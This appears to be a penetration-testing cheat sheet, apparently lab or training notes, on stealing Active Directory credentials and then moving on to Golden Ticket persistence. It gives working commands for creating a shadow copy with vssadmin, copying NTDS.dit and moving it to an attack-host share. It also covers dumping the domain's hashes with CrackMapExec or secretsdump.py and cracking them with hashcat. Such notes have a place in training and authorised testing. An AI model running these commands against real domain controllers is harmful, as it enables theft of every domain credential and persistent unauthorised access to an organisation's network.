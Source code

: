 We are looking to see if the account has local admin rights. To make a copy of the NTDS.dit file, we need local admin (Administrators group) or Domain Admin (Domain Admins group) (or equivalent) rights. We also will want to check what domain privileges we have.

### Checking User Account Privileges including Domain
- `net user bwilliamson`

### Creating Shadow Copy of C:
We can use vssadmin to create a Volume Shadow Copy (VSS) of the C: drive or whatever volume the admin chose when initially installing AD. It is very likely that NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location. We use VSS for this because it is designed to make copies of volumes that may be read & written to actively without needing to bring a particular application or system down. VSS is used by many different backup & disaster recovery software to perform operations.

- `vssadmin CREATE SHADOW /For=C:`

#### Copying NTDS.dit from the VSS
We can then copy the NTDS.dit file from the volume shadow copy of C: onto another location on the drive to prepare to move NTDS.dit to our attack host.

- `cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit`

#### Transferring NTDS.dit to Attack Host
Now cmd.exe /c move can be used to move the file from the target DC to the share on our attack host.
- `cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData`

### CrackMapExec
Alternatively, we may benefit from using CrackMapExec to accomplish the same steps shown above, all with one command. This command allows us to utilize VSS to quickly capture and dump the contents of the NTDS.dit file conveniently within our terminal session.
```bash
$ crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

### Impacket
```bash
$ secretsdump.py <DOMAIN>/<USER>:<PASSWORD>@<IP> 
```

## Cracking Hashes & Gaining Credentials
We can proceed with creating a text file containing all the NT hashes, or we can individually copy & paste a specific hash into a terminal session and use Hashcat to attempt to crack the hash and a password in cleartext.

- `sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt`

* * *

# Persistence
## GoldTicket 
- https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden 
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket
